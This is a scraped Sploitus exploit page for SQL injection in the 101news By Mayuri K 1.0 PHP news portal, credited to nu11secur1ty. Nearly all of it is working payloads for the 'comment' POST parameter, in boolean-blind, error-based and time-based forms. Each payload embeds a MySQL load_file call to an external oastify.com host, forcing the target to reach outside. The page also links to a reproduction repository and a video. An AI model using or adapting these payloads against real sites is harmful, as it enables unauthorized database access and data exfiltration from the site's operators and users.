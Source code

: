 ```yaml
---
title: 101news By Mayuri K 1.0 SQL Injection Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38187&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-02-08
fetch_date: 2025-10-04T05:55:10.564462
---
```


# 101news By Mayuri K 1.0 SQL Injection Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for 101news By Mayuri K 1.0 SQL Injection Vulnerability

2023-02-07 | CVSS 0.3

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38187
## Title: 101news-by-Mayuri-K-1.0 Multiple-SQLi
## Author: nu11secur1ty
## Vendor: https://mayurik.com/
## Software: https://mayurik.com/source-code/P4030/news-portal-project-in-php
## Reference: https://portswigger.net/web-security/sql-injection

## Description:
The `comment` parameter appears to be vulnerable to SQL injection attacks.
The payload '+(select
load_file('\\\\1km7b3i42qkp4m2iy5ryphiobfh85zynpqdi0bo0.oastify.com\\bxf'))+'
was submitted in the comment parameter.
This payload injects a SQL sub-query that calls MySQL's load_file
function with a UNC file path that references a URL on an external
domain.
The application interacted with that domain, indicating that the
injected SQL query was executed. This system is absolutely
UNPROTECTED!

STATUS: HIGH Vulnerability

[+]Payload:
```mysql
---
Parameter: comment (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY
or GROUP BY clause
    Payload: csrftoken=6606c0284475034686192a71b81d3e9360096c1bc0fa486d4a8636d582e2b0c5&name=IRSaszTW&[email protected]&comment=167565'+(select
load_file('\\\\1km7b3i42qkp4m2iy5ryphiobfh85zynpqdi0bo0.oastify.com\\bxf'))+''
RLIKE (SELECT (CASE WHEN (1140=1140) THEN 0x313637353635+(select
load_file(0x5c5c5c5c316b6d376233693432716b70346d3269793572797068696f62666838357a796e7071646930626f302e6f6173746966792e636f6d5c5c627866))+''
ELSE 0x28 END)) AND 'RBgF'='RBgF&submit=

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (FLOOR)
    Payload: csrftoken=6606c0284475034686192a71b81d3e9360096c1bc0fa486d4a8636d582e2b0c5&name=IRSaszTW&[email protected]&comment=167565'+(select
load_file('\\\\1km7b3i42qkp4m2iy5ryphiobfh85zynpqdi0bo0.oastify.com\\bxf'))+''
AND (SELECT 4135 FROM(SELECT COUNT(*),CONCAT(0x71766b6a71,(SELECT
(ELT(4135=4135,1))),0x7171627071,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'iMBs'='iMBs&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: csrftoken=6606c0284475034686192a71b81d3e9360096c1bc0fa486d4a8636d582e2b0c5&name=IRSaszTW&[email protected]&comment=167565'+(select
load_file('\\\\1km7b3i42qkp4m2iy5ryphiobfh85zynpqdi0bo0.oastify.com\\bxf'))+''
AND (SELECT 1879 FROM (SELECT(SLEEP(3)))AQLB) AND 'asLq'='asLq&submit=
---

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/mayuri_k/2023/101news)

## Proof and Exploit:
[href](https://streamable.com/vrc7x8)

## Time spend:
01:00:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)